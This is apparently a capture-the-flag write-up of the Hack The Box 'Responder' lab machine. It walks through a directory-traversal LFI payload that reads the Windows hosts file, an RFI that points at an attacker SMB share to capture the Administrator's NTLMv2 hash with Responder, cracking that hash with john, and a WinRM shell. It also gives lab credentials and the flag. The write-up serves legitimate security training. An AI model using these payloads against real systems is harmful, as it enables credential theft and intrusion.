# HTB — Responder (Starting Point Tier 1)
**Date:** June 5, 2026
**Difficulty:** Very Easy
**OS:** Windows

## Tasks
* **Task 1:** When visiting the web service using the IP address, what is the domain that we are being redirected to? **unika.htb**
* **Task 2:** Which scripting language is being used on the server to generate webpages? **php**
* **Task 3:** What is the name of the URL parameter which is used to load different language versions of the webpage? **page**
* **Task 4:** Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "mimikatz.exe" **../../../../../../../../windows/system32/drivers/etc/hosts**
* **Task 5:** Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability... **//10.10.14.6/somefile**
* **Task 6:** What does NTLM stand for? **New Technology Lan Manager**
* **Task 7:** Which flag do we use in the Responder utility to specify the network interface? **-I**
* **Task 8:** There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as john, but the full name is what? **John The Ripper**
* **Task 9:** What is the password for the administrator user? **badminton**
* **Task 10:** We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? **5985**
* **Task 11:** On which user's desktop is the flag located? **mike**

## Objective
Exploit a Local File Inclusion (LFI) and Remote File Inclusion (RFI) vulnerability to capture an NTLMv2 hash using Responder, crack the hash, and use WinRM for remote access to retrieve the flag.

## Tools Used
- nmap
- browser
- responder
- john
- evil-winrm

## Methodology
1. Ran `nmap` to scan for open ports → found port 80 (HTTP) and port 5985 (WinRM). Added `unika.htb` to `/etc/hosts`.
2. Explored the web application and found a `page` parameter vulnerable to LFI and RFI.
3. Used the RFI vulnerability to force the target server to authenticate to our attacking machine, capturing the Administrator's NTLMv2 hash using `responder`.
4. Cracked the captured NTLMv2 hash using `john` and the `rockyou.txt` wordlist to reveal the password (`badminton`).
5. Used `evil-winrm` to connect to the target via port 5985 as the Administrator.
6. Navigated to the `mike` user's desktop to read the root flag.

## Step-by-Step

**Step 1: Enumeration**
Running an Nmap scan reveals port 80 (HTTP) and port 5985 (WinRM) are open.



Attempting to access the IP in a browser redirects us to `unika.htb`.



We add `unika.htb` to our `/etc/hosts` file to resolve the domain.



**Step 2: Web Exploitation (LFI/RFI)**
Navigating the site, we notice it uses a `page` parameter to load different language files (`index.php?page=french.html`).



We test for Local File Inclusion (LFI) by traversing directories to read the Windows `hosts` file (`../../../../../../../../windows/system32/drivers/etc/hosts`). The file contents are successfully displayed, confirming LFI.



Next, we test for Remote File Inclusion (RFI) by pointing the `page` parameter to an SMB share on our attacking IP (`//10.10.14.214/anojay`).



**Step 3: Hash Capture with Responder**
To exploit the RFI, we set up `responder` on our `tun0` interface to listen for incoming SMB authentication requests.



When the target attempts to load the file from our fake SMB share, `responder` captures the NTLMv2-SSP hash for the `Administrator` user.



**Step 4: Password Cracking**
We copy the captured hash into a file named `hash.txt`.



Using `john` with the `rockyou.txt` wordlist, we crack the hash and discover the password is `badminton`.



**Step 5: Remote Access (WinRM)**
With the Administrator credentials (`Administrator:badminton`) and WinRM running on port 5985, we establish a remote shell using `evil-winrm`.



We navigate to the `C:\Users` directory to see the available user profiles, identifying `mike`.



**Step 6: Flag Capture**
We change directories to `mike`'s Desktop and find the `flag.txt` file.



Using the `type` command, we read the contents of the flag file.



## Key Learning
Unvalidated parameters in PHP (`include()`) can lead to Local and Remote File Inclusion vulnerabilities. Attackers can leverage RFI on Windows environments to force the server to authenticate to a rogue SMB server, leaking NTLMv2 hashes. If weak passwords are used, these hashes can be easily cracked, leading to complete system compromise via remote management services like WinRM.

## Flag
[ea81b7afddd03efaa0945333ed147fac]